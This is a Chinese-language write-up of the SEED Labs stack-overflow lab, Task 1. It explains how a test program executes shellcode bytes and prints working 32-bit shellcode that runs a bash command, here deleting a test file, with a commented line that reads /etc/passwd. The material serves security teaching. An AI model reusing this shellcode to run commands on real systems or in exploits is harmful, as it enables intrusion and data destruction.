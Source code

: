 ```yaml
---
title: Seed实验-栈溢出
published: 2025-10-08
description: '本文总结了Seed实验中栈溢出的原理和方法'
image: ''
tags: [栈溢出]
category: '技术'
draft: false 
lang: ''
---
```

# Task 1

shellcode_32/64两个文件将shellcode转为字节写入在codefile_32/64中，之后运行call_shellcode.c程序，将其转成可执行的二进制文件call_shellcode.c中的关键代码为：

![image-20251002233157237](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246527.png)

含义是将shellcode的字节形式读入缓存区code中，定义一个**函数指针**指向了这片内存缓存区，即将这片缓存区的内容当作函数去执行，达到了执行shellcode的目的。

修改原始代码，作用为删除test文件：

**32位**

```python
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   #"/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd     *"
   "/bin/rm test1.txt                                           "
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_32', 'wb') as f:
  f.write(content)

```
